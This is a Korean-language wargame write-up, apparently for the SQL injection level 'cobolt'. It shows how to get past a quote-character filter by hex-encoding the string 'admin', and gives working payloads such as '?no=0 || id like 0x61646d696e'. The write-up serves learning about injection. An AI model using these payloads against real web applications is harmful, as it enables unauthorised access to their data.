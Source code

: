 ## Q3. cobolt _ 스트링 우회 기법
<img src="/photo/prob_03.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: ' / " / ` <br> 문제 사항: 쿼리에 id=admin을 만들어내라.
### 해결책

```
현재 쿼리문에서 id='guest'로 고정되어 있음
=> no에 id컬럼 만들어 admin 적용
=> || 이용
=> || 이므로 앞 조건은 거짓이 되도록함  
```
```diff
# 현재 쿼리문: where id='guest' and no=0 || id='admin'
```
```
but. 싱글쿼터가 제한됨
=> 싱글쿼터 없이 문자열 표현이 가능해야함
=> 스트링 우회 기법 사용
=> DB에서 16진수를 인식하므로 이를 이용
=> admin을 HEX Encoding
```
```
해결 쿼리문: where id='guest' and no=0 || id like 0x61646d696e
```
### CERT <br> ?no=0 || id like 0x61646d696e

### 느낀점
```diff
+ 스트링 우회 기법에 대해 배웠다.
+ DB에서 16진수를 인식하므로 HEX Encoding으로 우회하는 방법이었다.

- 싱글쿼터 없이 문자열 표현할 수 있는 방법을 몰라서 힘들었다.
```

### 다른 풀이
1. ?no=0 || 1 order by id asc  
   - 1이므로 admin도 있음
   - => but. 안 보임
   - => 정렬을 해서 위로 올림
